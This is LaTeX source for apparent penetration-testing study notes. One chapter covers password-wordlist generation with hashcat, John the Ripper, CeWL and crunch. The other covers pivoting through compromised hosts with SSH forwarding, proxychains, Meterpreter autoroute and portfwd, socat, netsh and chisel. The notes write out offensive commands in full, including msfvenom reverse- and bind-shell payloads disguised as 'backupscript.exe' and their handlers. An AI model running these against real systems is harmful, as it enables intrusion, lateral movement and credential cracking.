\part{misc}
\chapter{Wordlists and wordlist Generation}
\section{Well known lists}
\href{https://github.com/clem9669/wordlists}{Various wordlists FR \& EN}
\begin{itemize}
\item Passwords
    \begin{itemize}
    \item SecLists/Passwords/Leaked-Databases/rockyou.txt
    \item
        \href{https://hashmob.net/hashlists/info/4169-Have%20I%20been%20Pwned%20V8%20(NTLM)}{Have
        I Benne Pwned founds}
    \item \href{https://weakpass.com/}{Weakpass.com}
    \end{itemize}
\item Logins
    \begin{itemize}
    \item SecLists/Usernames/Names/names.txt
    \item
        \href{https://github.com/insidetrust/statistically-likely-usernames}{statistically-likely-usernames}
    \end{itemize}
\item Pairs (login:passwd)
    \begin{itemize}
    \item SecLists/Passwords/Default-Credentials
    \end{itemize}
\item File Extensions
    \begin{itemize}
    \item SecLists/Discovery/Web-Content/web-extensions.txt
    \end{itemize}
\item Domain
    \begin{itemize}
    \item SecLists/Discovery/DNS/subdomains-top1million-5000.txt
    \end{itemize}
\item URL Parameters
    \begin{itemize}
    \item SecLists/Discovery/Web-Content/burp-parameter-names.txt
    \end{itemize}
\item Directory/web page
    \begin{itemize}
    \item /opt/useful/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt
    \end{itemize}
\end{itemize}



\section{Wordlist generation}
\url{https://miloserdov.org/?p=6032}

\subsection{linkedin2username}

\href{https://github.com/initstring/linkedin2username}{linkedin2username}

\subsection{Mentalist}
\url{https://miloserdov.org/?p=3338}

\subsection{Username list}

see~\verb+username-anarchy+~\ref{tool:username-anarchy}

\subsection{based on someone info}

cupps

\subsection{based on website content}

CeWL
\begin{verbatim}
sudo pacman -S cewl
gem install mime mime-types mini_exiftool nokogiri rubyzip spider

cewl URL -d 2 -w words.txt -a --meta_file meta.txt -e --email_file emails.txt -c
\end{verbatim}

\begin{itemize}
    \item \verb+-d INT+ depth to spider 
    \item \verb+-m INT+ minimum word length
    \item \verb+--lowercase+ storage of the found words in lowercase
\end{itemize}

\subsection{variable-length masked wordlist}

\begin{itemize}
    \item hashcat (see~\ref{tool:hashcat}):
\begin{verbatim}
hashcat -a 3 -i --increment-min=6 --increment-max=10 --stdout ?l?l?l?l?l?l?l?l?l?l
\end{verbatim}

    \item JtR~\ref{tool:jtr}
\begin{verbatim}
john --mask='?d?d?d?d' -max-len=3 -min-len=2 -stdout
\end{verbatim}
    \item maskprocessor:
    \item \href{https://en.kali.tools/?p=182}{crunch}

\end{itemize}

Can add filters with grep or sed to filter the results for exemple
\verb+| grep -i -E '(Alexey)|(MiAl)'+ see also~\ref{wordlist:passwd_regex_filter}

\subsubsection{crunch}
\url{https://en.kali.tools/?p=182}
\begin{verbatim}
crunch <minimum length> <maximum length> <charset> -t <pattern> -o <output file>
\end{verbatim}


\subsubsection{Kwprocessor}

Kwprocessor is a tool that creates wordlists with keyboard walks. Another common password generation technique is to follow patterns on the keyboard.

he help menu shows the various options supported by kwp. The pattern is based
on the geographical directions a user could choose on the keyboard. For
example, the "--keywalk-west" option is used to specify movement towards the
west from the base character. The program takes in base characters as a
parameter, which is the character set the pattern will start with. Next, it
needs a keymap, which maps the locations of keys on language-specific keyboard
layouts. The final option is used to specify the route to be used. A route is a
pattern to be followed by passwords. It defines how passwords will be formed,
starting from the base characters. For example, the route 222 can denote the
path 2 * EAST + 2 * SOUTH + 2 * WEST from the base character. If the base
character is considered to be "T" then the password generated by the route
would be "TYUJNBV" on a US keymap.

\begin{verbatim}
kwp -s 1 basechars/full.base keymaps/en-us.keymap \
    routes/2-to-10-max-3-direction-changes.route
\end{verbatim}

\subsubsection{Princeprocessor}
PRINCE or PRobability INfinite Chained Elements is an efficient password
guessing algorithm to improve password cracking rates. Princeprocessor is a
tool that generates passwords using the PRINCE algorithm. The program takes in
a wordlist and creates chains of words taken from this wordlist. 

\subsection{create combined dictionaries}
\verb+hashcat -a 1 --stdout dict1.txt dict2.txt+

to happend:
\begin{itemize}
    \item on the left word \verb+'-j $.'+
    \item on the right word \verb+'-k $.+'
\end{itemize}

\verb+hashcat -a 1 --stdout -j '$.' firstname.txt lastname.txt+

combinator3 is a program in hashcat-utils

\subsection{split generated dictionaries}
\begin{verbatim}
split -C 10G
\end{verbatim}



\section{Wordlist mutation}

It can be based on applying rule or mask or both on a wordlist.


d3ad0ne rule from hashcat


For rule based mutation using: 
\begin{itemize}
    \item hashcat (see~\ref{tool:hashcat}):
\begin{verbatim}
hashcat --force password.list -r custom.rule --stdout | sort -u > mut_password.list
\end{verbatim}

    \item JtR~\ref{tool:jtr}
\begin{verbatim}
./john -wordlist=wordlist.list -rules:KoreLogicRulesAppendYears -stdout > mwordlist.list
\end{verbatim}

\end{itemize}

For rule based mutation using: 
\begin{itemize}
        \item hashcat (see~\ref{tool:hashcat}):
\begin{verbatim}
\end{verbatim}
    \item JtR~\ref{tool:jtr}
\begin{verbatim}
./john -wordlist=wordlist.list -mask='?w?d' -stdout 
mwordlist.list
\end{verbatim}
\end{itemize}

There are a variety of publicly available rules as well, such as the
\href{https://github.com/NSAKEY/nsa-rules}{nsa-rules},
\href{https://github.com/praetorian-code/Hob0Rules}{Hob0Rules}, and the
\href{https://github.com/HackLikeAPornstar/StratJumbo/blob/master/chap3/corporate.rule}{corporate.rule}
which is featured in the book
\href{https://www.hacklikeapornstar.com/new-release-hack-like-legend/}{How to
Hack Like a Legend}. These are curated rulesets generally targeted at common corporate Windows password policies or based on statistics and probably industry password patterns.


\url{https://miloserdov.org/?p=5477}

\url{https://miloserdov.org/?p=6003}



\section{Password generation conform to strength policy}
\label{wordlist:passwd_regex_filter}

\subsection{Regular expressions for filtering passwords}
Examples of regular expressions that will be useful to us:
\begin{itemize}
 \item There must be one capital letter:
    \begin{verbatim}
    '.*[A-Z]{1,}.*'
    \end{verbatim}
 \item There must be two capital letters:
    \begin{verbatim}
    '.*[A-Z]{1,}.*[A-Z]{1,}.*'
    \end{verbatim}
 \item There must be three large letters:
    \begin{verbatim}
    '.*[A-Z]{1,}.*[A-Z]{1,}.*[A-Z]{1,}.*'
    \end{verbatim}
 \item There must be one small letter:
    \begin{verbatim}
    '.*[a-z]{1,}.*'
    \end{verbatim}
 \item There must be two small letters:
    \begin{verbatim}
    '.*[a-z]{1,}.*[a-z]{1,}.*'
    \end{verbatim}
 \item There must be three small letters:
    \begin{verbatim}
    '.*[a-z]{1,}.*[a-z]{1,}.*[a-z]{1,}.*'
    \end{verbatim}
 \item There must be one number:
    \begin{verbatim}
    '.*[0-9]{1,}.*'
    \end{verbatim}
 \item There are two numbers required:
    \begin{verbatim}
    '.*[0-9]{1,}.*[0-9]{1,}.*'
    \end{verbatim}
 \item There are three numbers required:
    \begin{verbatim}
    '.*[0-9]{1,}.*[0-9]{1,}.*[0-9]{1,}.*'
    \end{verbatim}
\end{itemize}

\verb+-r+
 \href{https://en.m.wikibooks.org/wiki/Regular_Expressions/POSIX-Extended_Regular_Expressions}{Extended
regular expression}

\begin{itemize}
    \item \verb+{n}+: previous expression match exactly $n$ times
    \item \verb+{n,}+:previous expression match at least $n$ times ($\geq n$)
    \item \verb+{,m}+:previous expression match at most $m$ times  ($ \leq m$)
    \item \verb+{n,m}+:previous expression match between $n$ and $m$ times
        included 

\end{itemize}
\verb+\{m,n\}+ Matches the preceding element at least \verb+m+ and not more
than \verb+n+ times. ( $ m \geq |prefix| < n$)
\verb+-i+: edit file in place
\begin{verbatim}
sed -r '/^.{,7}$/d' t            remove shorter or equal to 7
sed -r '/^.{7,}$/d' t            remove longuer longuer or equal to 7
sed -r '/[!-/:-@\[-`\{-~]+/!d'   remove no special chars
sed -r '/[0-9]+/!d' t            remove no numbers
\end{verbatim}

\begin{verbatim}
cat mut_password.list \
    | grep -E '.*[A-Z]{1,}.*' \
    | sed -r '/^.{,11}$/d' \
    | sed -r '/^.{13,}$/d' \
    | awk '{ print length(), $0 \
    | "sort -n" }' \
    |cut -f2 -d' ' 
\end{verbatim}


\subsection{Filtering wordlists}
\begin{verbatim}
cat ~/rockyou_clean.txt \
    | grep -E '.*[A-Z]{1,}.*[A-Z]{1,}.*' \
    | grep -E '.*[a-z]{1,}.*' \
    | grep -E '.*[0-9]{1,}.*' \
    > ~/rockyou_llud.dic

grep -E '^.{6,}$' jane.txt\
   | grep -E '[A-Z]'\
   | grep -E '[a-z]'\
   | grep -E '[0-9]'\
   | grep -E '([!@#$%^&*].*){2,}'\
   > jane-filtered.txt
\end{verbatim}

\subsection{How to generate wordlists}
\begin{verbatim}
maskprocessor -1 ?l?u?d ?1?1?1?1?1?1?1?1 \
    | grep -E '.*[A-Z]{1,}.*[A-Z]{1,}.*' \
    | grep -E '.*[a-z]{1,}.*' \
    | grep -E '.*[0-9]{1,}.*' \
    > ~/rockyou_llud.dic
\end{verbatim}

Passing generated passwords to hashcat stdin:
\begin{verbatim}
maskprocessor -1 ?l?u?d ?1?1?1?1?1?1?1?1 \
    | grep -E '.*[A-Z]{1,}.*[A-Z]{1,}.*' \
    | grep -E '.*[a-z]{1,}.*' \
    | grep -E '.*[0-9]{1,}.*' \
    | hashcat -m 0 -a 0 ...
\end{verbatim}

\subsection{Using rule based}
See~\ref{tool:jtr:rule-exp-filter}

\url{https://miloserdov.org/?p=5477}

\url{https://hashcat.net/wiki/doku.php?id=rule_based_attack}

 


\section{links}
\url{https://miloserdov.org/?p=5945}

\chapter{Pivoting}

{\bf Pivoting} is essentially the idea of moving to other
 networks through a compromised host to find more targets on different network
 segments.

 There are many different terms used to describe a compromised host that can be
 used to pivot to a previously unreachable network segment. Some of the most
 common are:
 \begin{itemize}
     \item  Pivot Host
     \item  Proxy
     \item  Foothold
     \item  Beach Head system
     \item  Jump Host
 \end{itemize}


Pivoting's primary use is to defeat segmentation (both physically and
virtually) to access an isolated network. {\bf Tunneling}, on the other hand, is a
subset of pivoting. Tunneling encapsulates network traffic into another
protocol and routes traffic through it.



\section{SSH Port Forwarding}
SSH port forwarding is a feature of SSH protocol that allows client and server
to forward additional network connections using base SSH session as a secure,
encrypted and compressed (for improved performance) tunnel.

SSH port forwarding is just a specific SSH-based implementation of a
bigger concept: port forwarding in general helps you get around rigid network
and firewall structures by allowing bi-directional specific network
connectivity via certain network ports. 

SSH port forwarding involves establishing an SSH tunnel between two or more
systems and then configuring the systems to transmit a specified type of
traffic through that connection.

\subsection{Local port forwarding}
Local port forwarding is used to make an external resource available on the
local network.  For example a SQL server only allowing localhost connexion


Local forwarding is used to forward a port from the client machine to the
server machine. Basically, the SSH client listens for connections on a
configured port, and when it receives a connection, it tunnels the connection
to an SSH server. The server connects to a configurated destination port,
possibly on a different machine than the SSH server.

\begin{verbatim}
ssh -L $L_PORT:localhost:R_PORT $LOGIN@$R_HOST

netstat -antp | grep $L_PORT
lsof -i | egrep '\<ssh\>'
lsof -i -n | egrep '\<ssh\>'

nmap -v -sV -p$L_PORT localhost
\end{verbatim}

{\emph Autossh} is a tool that can be used to create persistent SSH tunnels. The only
prerequisite is that you need to have public key authentication configured
between your systems unless you want to be prompted for a password every time
the connection dies and is re-established.

\subsection{Dynamic port forwarding}

Dynamic port forwarding, also called This is called \emph{SSH tunneling over SOCKS
proxy}, sets up a SOCKS proxy server. You can configure
applications to connect to the proxy and transmit all data through it. The most
common use for this is for private web browsing or to make your connection
seemingly originate from a different country or location.

\begin{figure}
  
\includegraphics[width=\linewidth]{misc/pivoting/images/dynamic_ssh.png}
  \caption{Dynamic port forwarding}
  \label{fig:dynamic_port_ssh}
\end{figure}


\begin{verbatim}
ssh -D $L_PORT $LOGIN@$R_HOST
\end{verbatim}

\href{https://github.com/haad/proxychains}{proxychains} ProxyChains is a UNIX
program, that hooks network-related libc functions in dynamically linked
programs via a preloaded DLL and redirects the connections through SOCKS4a/5 or
HTTP proxies.

edit \verb+/etc/proxychains.conf+:
\begin{verbatim}
socks4 	127.0.0.1 $L_PORT
\end{verbatim}


Then it is possible to route traffic of application not allowing proxy usage
such as nmap metsaploit, xfreerdp
\begin{verbatim}
proxychains nmap -v -sn 172.16.5.1-200
proxychains msfconsole
proxychains xfreerdp /v:$TARGET /u:$LOGIN /p:$PASSWORD
\end{verbatim}

 One more important note to remember here is that we can only perform a
 \emph{full TCP connect} (\verb+sT+) scan over proxychains.

\subsection{Remote port forwarding}
Remote port forwarding is the exact opposite. An SSH tunnel is established, but
the remote system is able to access your local network.


Usefull  to get a reverse shell through a pivot tunnel.

see \verb+GatewayPorts+ config.

\begin{verbatim}
ssh -R $R_IP:$R_PORT:$L_IP:$L_PORT $LOGIN@$P_IP -vN
\end{verbatim}

if \verb+RIP+ (or \verb+0.0.0.0+) is omited will listen on all IP


\subsection{SSH Server-Side Config}
The \verb+AllowTcpForwarding+ option in the OpenSSH server configuration file
must be enabled on the server to allow port forwarding. By default, forwarding
is allowed. Possible values for this option are \verb+yes+ or \verb+all+ to
allow all TCP forwarding, \verb+no+ to prevent all TCP forwarding, \verb+local+
to allow local forwardings, and \verb+remote+ to allow remote forwardings.

Another option of interest is \verb+AllowStreamLocalForwarding+, which can be
used to forward Unix domain sockets. It allows the same values as
AllowTcpForwarding. The default is \verb+yes+.

The \verb+GatewayPorts+ configuration option also affects remote port
forwardings. Possible values were \verb+no+ (only local connections from server
host allowed; default), \verb+yes+ (anyone on the Internet can connect to
remote forwarded ports), and \verb+clientspecified+ (client can specify an IP address that can connect, anyone can if not specified).


\verb+PermitOpen+ can be used to specify the destinations to which port forwarding is allowed. If you only want to allow forwarding to certain IP addresses or hostnames, use this directive. 

\subsection{Low latency}

The only real problem that arises with SSH port forwarding is that there is
usually a bit of latency.  The problem becomes more apparent when doing
network-intensive activities, especially with port forwarding set up as a SOCKS proxy server.

The reason for the latency is because SSH is tunneling TCP over TCP. This is a
terribly inefficient way to transfer data and will result in slower network
speeds.

There is a program called \href{https://github.com/sshuttle/sshuttle}{sshuttle} that corrects the issue. It also remove the
need to configure proxychains.

Sshuttle can be extremely useful for automating the execution of iptables and adding pivot rules for the remote host.

iTo use sshuttle, specify the option \verb+-r+ to connect to the remote machine
with a username and password. Then we include the network or IP we want to
route through the pivot host (for example the network 172.16.5.0/23).

With this command, sshuttle creates an entry in our iptables to redirect all
traffic to the 172.16.5.0/23 network through the pivot host.

\begin{verbatim}
sudo sshuttle -r $USER@RIP -x 172.16.5.0 -vv
\end{verbatim}

\section{Meterpreter Tunneling and Port Forwarding}

scenario :
\begin{itemize}
    \item attacker: 10.10.14.18
    \item pivot: (10.10.x.x, 172.16.5.129)
    \item target: 172.16.5.19
\end{itemize}


\subsection{Dynamic port forwarding}
With a meterpreter session on the pivot host

\begin{verbatim}
meterpreter > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23
\end{verbatim}

Configuring MSF's SOCKS Proxy

\begin{verbatim}
use auxiliary/server/socks_proxy
set SRVPORT 9050
set SRVHOST 0.0.0.0
set version 4a
run
# confirm
jobs
\end{verbatim}

After initiating the SOCKS server,configure proxychains
(\verb+/etc/proxychains.conf+) to route traffic generated by other tools like
Nmap through the pivot.

Finally, tell socks proxy module to route all the traffic via
Meterpreter session with the \verb+post/multi/manage/autoroute+ module to add
routes for the 172.16.5.0 subnet and then route all our proxychains traffic.

\begin{verbatim}
use post/multi/manage/autoroute
set SESSION 1
set SUBNET 172.16.5.0
run
\end{verbatim}

It is also possible to add routes with autoroute by running autoroute from the
Meterpreter session.

\begin{verbatim}
meterpreter > run autoroute -s 172.16.5.0/23

# list active routes
meterpreter > run autoroute -p
\end{verbatim}

testing
\begin{verbatim}
 proxychains nmap 172.16.5.19 -p3389 -sT -v -Pn
\end{verbatim}


\subsection{Local port forwarding}
Request Meterpreter to forward all the packets received on this port via 
Meterpreter session to a remote host on the 172.16.5.0/23 network.

Creating Local TCP Relay: attacker host port 3300 to  target (172.16.5.19) 3389
port thu pivot host runing the meterpreter.

\begin{verbatim}
meterpreter > portfwd add -l 3300 -p 3389 -r 172.16.5.19
\end{verbatim}

validate 
\begin{verbatim}
xfreerdp /v:localhost:3300 /u:victor /p:pass@123
\end{verbatim}

\subsection{Remote port forwarding}
Create a reverse port forward on existing shell from the previous scenario to
forwards all connections on port 1234 running on the pivot to attack host on local port 8081.

\begin{verbatim}
meterpreter > portfwd add -R -l 8081 -p 1234 -L 10.10.14.18
meterpreter > bg
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LPORT 8081
msf6 exploit(multi/handler) > set LHOST 0.0.0.0
sf6 exploit(multi/handler) > run

msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.129 -f exe -o backupscript.exe LPORT=1234

\end{verbatim}


\section{Socat pivoting}

\subsection{With reverse shell}

\begin{verbatim}
socat TCP4-LISTEN:$P_PORT,fork TCP4:$L_IP:$L_PORT
\end{verbatim}

\begin{verbatim}
msfvenom -p windows/x64/meterpreter/reverse_https LHOST=$P_IP -f exe -o
backupscript.exe LPORT=$P_PORT
\end{verbatim}

\begin{verbatim}
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) > set lhost 0.0.0.0
msf6 exploit(multi/handler) > set lport 80
msf6 exploit(multi/handler) > run
\end{verbatim}

\subsection{With bind shell}


\begin{verbatim}
msfvenom -p windows/x64/meterpreter/bind_tcp -f exe -o backupscript.exe
LPORT=$TPORT
\end{verbatim}


\begin{verbatim}
socat TCP4-LISTEN:$PPORT,fork TCP$TIP:$TPORT
\end{verbatim}



\begin{verbatim}
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/bind_tcp
msf6 exploit(multi/handler) > set RHOST $PIP
msf6 exploit(multi/handler) > set LPORT PPORT
msf6 exploit(multi/handler) > ru
\end{verbatim}

\section{SSH for Windows}

\href{https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html}{Plink},
short for PuTTY Link, is a Windows command-line SSH tool that comes as a part
of the PuTTY package when installed. Similar to SSH, Plink can also be used to
create dynamic port forwards and SOCKS proxies.

\begin{verbatim}
plink -D $LPORT $user@$PIP
\end{verbatim}

Another Windows-based tool called \href{https://www.proxifier.com/}{Proxifier}
can be used to start a SOCKS tunnel via the SSH session created. 


\section{Web Server Pivoting}


\href{https://github.com/klsecservices/rpivot}{Rpivot} is a reverse SOCKS proxy
tool written in Python for SOCKS tunneling. Rpivot binds a machine inside a
corporate network to an external server and exposes the client's local port on
the server-side. 

Running server.py from the Attack Host
\begin{verbatim}
server.py --proxy-port $LPORT --server-port $SPORT --server-ip 0.0.0.0
\end{verbatim}

Running client.py from Pivot Target
\begin{verbatim}
client.py --server-ip $LIP --server-port $SPORT
\end{verbatim}


\begin{verbatim}
proxychains firefox-esr $TIP:$TPORT
\end{verbatim}

\section{Port Forwarding with Windows Netsh}

\href{https://docs.microsoft.com/en-us/windows-server/networking/technologies/netsh/netsh-contexts}{Netsh}
is a Windows command-line tool that can help with the network
configuration of a particular Windows system Firewall rule
\begin{verbatim}
# Allow inbound traffic flow on port 4444/TCP
netsh advfirewall firewall add rule 
    name="Allow L_PORT" dir=in action=allow protocol=TCP localport=L_PORT
\end{verbatim}

Port forward:
\begin{verbatim}
netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=PPORT \
    connectaddress=$TIP connectport=$TPORT
# Verify
netsh.exe interface portproxy show v4tov4
\end{verbatim}

clean:
\begin{verbatim}
netsh advfirewall firewall delete rule 
    name="Allow 4444" protocol=TCP localport=4444
netsh interface portproxy show v4tov4
\end{verbatim}

netsh interface portproxy delete v4tov4 listenaddress=0.0.0.0 listenport=8443

for incoming (nmap\ldots)
\begin{verbatim}
netsh interface portproxy add v4tov4 listenaddress=IP_P listenport=L_PORT \
    connectaddress=IP_T connectport=T_PORT
\end{verbatim}


\section{Port Forwarding with Linux iptables}

\begin{verbatim}
 iptables -t nat -A PREROUTING -p tcp --dport 4445 -j DNAT --to-destination target:445
\end{verbatim}
\subsection{ Tunnel as http proxy with ncat}

ncat can be setup as an http proxy which can be used similar to a socks proxy.
Just run the ncat proxy on the target machine, and update the local proxychains
config to use an http proxy.

Unfortunately, ncat is almost never going to be installed by default on a
target machine, unless someone has also installed nmap there.

\subsection{Target machine}
setup ncat listener
\begin{verbatim}
ncat -vv --listen 3128 --proxy-type http
\end{verbatim}

\subsection{attacker machine}
\begin{verbatim}
tail /etc/proxychains.conf -n 3
# defaults set to "tor"
#socks4 	127.0.0.1 9050
http 172.21.0.3  3128 # 172.21.0.3 is the IP of my ssh machine

proxychains nmap -sT -P0 -p8080,9001 172.20.0.2
\end{verbatim}



\subsection{Firewall Port forwaring}
These actions are performed on the pivot.

\subsubsection{Windows netsh}
Firewall rule
\begin{verbatim}
# Allow inbound traffic flow on port 4444/TCP
netsh advfirewall firewall add rule 
    name="Allow L_PORT" dir=in action=allow protocol=TCP localport=L_PORT
\end{verbatim}

Port forward:
\begin{verbatim}
netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=L_PORT \
    connectaddress=IP connectport=PORT
\end{verbatim}

clean:
\begin{verbatim}
netsh advfirewall firewall delete rule 
    name="Allow 4444" protocol=TCP localport=4444
netsh interface portproxy show v4tov4
\end{verbatim}

netsh interface portproxy delete v4tov4 listenaddress=0.0.0.0 listenport=8443

for incoming (nmap\ldots)
\begin{verbatim}
netsh interface portproxy add v4tov4 listenaddress=IP_P listenport=L_PORT \
    connectaddress=IP_T connectport=T_PORT
\end{verbatim}

\subsubsection{Linux }

\begin{verbatim}
 iptables -t nat -A PREROUTING -p tcp --dport 4445 -j DNAT --to-destination target:445
\end{verbatim}

\subsection{socat}

\begin{verbatim}
 socat.exe tcp-listen:4445,fork tcp-connect:IP_T:445
socat -v tcp-listen:8079,reuseaddr tcp-connect:IP_T:9090
\end{verbatim}


Port forwarding has a limitation: it’s a static operation, and you have to do a separate forwarding for each ip:port combination. Normally, you need this only at the initial stage to bypass the firewall. But if you need a fully functional and handy access to a network segment via the compromised PC, you have to use a proxy.

\section{Proxy pivoting}
\subsection{SOCKS proxy and Meterpreter}
Like SSH, meterpreter can turn into a sock intermediary, it has been discovered that it is less reliable than SSH. Shockingly, socks4 proxies just for the most part support TCP conventions, and specific sorts of traffic won’t function admirably, so full Nmap and comparative tools utilization may not be conceivable.


\subsection{ Tunnel as http (socks5) proxy with ncat}

ncat can be setup as an http proxy which can be used similar to a socks proxy. Just run the ncat proxy on the target machine, and update the local proxychains config to use an http proxy.

Unfortunately, ncat is almost never going to be installed by default on a target machine, unless someone has also installed nmap there.
\subsubsection{Target machine - setup ncat listener}
\begin{verbatim}
ncat -vv --listen 3128 --proxy-type http # or socks5
\end{verbatim}
\subsubsection{attacker machine}
\begin{verbatim}
tail /etc/proxychains.conf -n 3
# defaults set to "tor"
#socks4 	127.0.0.1 9050
http 172.21.0.3  3128 # 172.21.0.3 is the IP of my ssh machine

proxychains nmap -sT -P0 -p8080,9001 172.20.0.2
\end{verbatim}

\subsection{chisel proxy}
\url{https://ppn.snovvcrash.rocks/pentest/infrastructure/pivoting#chisel}

\url{https://ap3x.github.io/posts/pivoting-with-chisel/}

on the attacker
\begin{verbatim}
chisel server -p 8001 --reverse
\end{verbatim}

edit \verb+/etc/proxych+ to happen \verb+ socks5   127.0.0.1:1080+

on the pivot

\begin{verbatim}
